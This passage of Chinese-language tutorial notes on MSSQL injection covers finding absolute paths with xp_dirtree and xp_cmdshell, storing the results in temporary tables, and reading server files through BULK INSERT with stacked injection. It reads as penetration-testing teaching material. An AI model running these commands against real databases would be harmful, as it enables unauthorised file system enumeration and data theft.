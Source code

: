 - 有相应的权限db_owner
- 知道文件的绝对路径

在mssql中有两个存储过程可以帮我们来找绝对路径：xp_cmdshell和 xp_dirtree
**利用xp_dirtree方法来寻找**
```sql
execute master..xp_dirtree 'c:' --列出所有c:\文件、目录、子目录 
execute master..xp_dirtree 'c:',1 --只列c:\目录
execute master..xp_dirtree 'c:',1,1 --列c:\目录、文件
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_35_hQtoEjea.png)

当实际利用的时候我们可以创建一个临时表把存储过程查询到的路径插入到临时表中

```sql
CREATE TABLE tmp (dir varchar(8000),num int,num1 int);
insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1;
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_35_1gJ9rYsd.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_35_uxihOQTP.png)

**使用xp_cmdshell**查找绝对路径
cmd中寻找某文件

```shell
for /r c:\ %i in (*.asp) do echo %i
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_35_Hbq1yKk7.png)

需要建立一个表存一个char字段就可以了

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_36_mKGkM8zV.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_36_ZnQTRlo1.png)



### 读
读取文件可以创建一个临时表，将本地文件写入该表中（无法远程登录的情况下，使用堆叠注入）
```sql
--建立一个临时表
create table #testtable(
 context ntext
);
select * from #testtable

--将本地文件写入表中
BULK INSERT #testtable FROM 'c:/1.txt'
WITH (
   DATAFILETYPE = 'char',
   KEEPNULLS
)
--drop table #testtable; 
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_36_mXhNKegO.png)
